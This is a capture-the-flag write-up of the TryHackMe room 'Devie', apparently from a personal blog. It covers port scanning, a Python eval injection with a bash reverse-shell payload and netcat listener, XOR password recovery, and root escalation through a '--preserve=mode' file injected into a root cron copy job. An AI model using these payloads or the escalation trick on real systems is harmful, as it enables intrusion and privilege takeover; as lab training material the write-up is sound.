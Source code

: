 ```yaml
---
title: "TryHackMe: Devie"
collection: publications
permalink: /publication/devie
excerpt: 'This is a subscriber only room from TryHackMe'
date: 2023-06-28
venue: '06-28'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/devie-header.png)

**LINK :** [Devie](https://tryhackme.com/room/devie)

# Enumeration : 

* Let's start by looking for open ports.

```console
└─# nmap -sC -sV -T4 10.10.152.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 09:51 EDT
Nmap scan report for 10.10.152.117
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c9727bf5b62ed5995614de43093a6492 (RSA)
|   256 0b75585ab9f75ba9ffefad71c1090a33 (ECDSA)
|_  256 7df9c9f867f9954e016823a47b8c9830 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Tue, 27 Jun 2023 13:51:28 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 4486
|     Connection: close
```
* We have 2 open ports, ``ssh`` running on port ``22`` and a web application running on port ``5000``
* Visiting ``http://X.X.X.X:5000``, we see a Math Formulas page.

![devie1](/images/devie1.png)

* You can see below a link to download the code source.

![devie2](/images/devie2.png)

* We have 4 python scripts.
* The main function is in ``app.py``, while i was reading the script, i noticed that the ``bisect`` function uses ``eval`` which is vulnerable to command injection.

![devie3](/images/devie3.png)

> [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

* All we need to do now is to inject a payload into the ``xa`` parameter of the ``bisect`` function, for that i will use ``burp suite``.

![devie4](/images/devie4.png)

# Flag 1 :

* As you can see we have to add ``#`` at the end of the injected payload to comment out the rest of the expression.

```console
__import__('os').system('/bin/bash -c \'bash+-i+>%26+/dev/tcp/<your-ip-address>/4444+0>%261\'')
```

> Dont forget to add your ip address and url-encode the payload.

![devie5](/images/devie5.png)

* Before send the request, you should open a netcat listener.

```console
nc -lvnp 4444
```

![devie6](/images/devie6.png)

# Flag 2 :

* I found a note in Bruce's home directory 

![devie7](/images/devie7.png)

* So as you can see Gordon shares his encoded XOR password.

* Let's see our sudo privileges

![devie8](/images/devie8.png)

* So as you can see we can run ``encrypt.py`` as ``gordon```

![devie9](/images/devie9.png)

* So the idea here is to enter ``hammertime4444`` as password and grab the output which XORed,base64-encoded password, then pass it to [Cyberchef](https://gchq.github.io/CyberChef/), As a recipe we will use ``from base64`` and ``XOR`` with the password entered using ``encrypt.py`` as the key.

![devie10](/images/devie10.png)

* [4] is the key

* Now we have the key used in the XOR operation.

> The special thing about ``XOR`` is because we know the initial and final value of the password, we can extract the key used in the XOR operation.

* Now it's time to decode the encoded string from Gordan's note using the key we found.

![devie11](/images/devie11.png)

* Switch user to ``Gordon`` and get your 2nd flag.

![devie12](/images/devie12.png)

> The password works also for ``SSH``.

# Flag 3 :

* We found a ``reports`` and ``backups`` folders which seems to be copies of each others with the copied files stored in the ``backups`` folder.

![devie13](/images/devie13.png)

* I spent a lot of times trying to figure out what's the next step until i noticed that the time of backups directory files changes every minutes and the ownership of these files is ``root`` so a backup job is most likely running as ``root``.

* It's time to use ``pspy`` to snoop on processes without need for root permissions.

> [Pspy](https://github.com/DominicBreuker/pspy)

![devie14](/images/devie14.png)

* As you can see there is a ``backup`` script that get executed every minute, let's see what this script is used for.

![devie15](/images/devie15.png)

* If we put any binary into ``reports`` folder, it will be copied to ``backups`` folder with ``root`` ownership.
* My idea is to copy ``/bin/bash`` to ``reports`` folder and assign it the **setuid bit**, but the problem is that privilege will not be copied by ``cp`` command by default, fortunately we can create a file named ``--preserve=mode`` so the permission is maintained when it gets copied to the ``backups`` folder.

> [Preservation mode](https://www.makeuseof.com/preserve-file-permissions-in-linux-while-copying-them/)

![devie16](/images/devie16.png)

![devie17](/images/devie17.png)

* We wait one minute for the cron to execute, change directory to ``backups`` folder and you should see the ``bash`` binary with **setuid bit**.

![devie18](/images/devie8.png)

* Execute this command and get the root flag.

```console
./bash -p
```

![devie19](/images/devie19.png)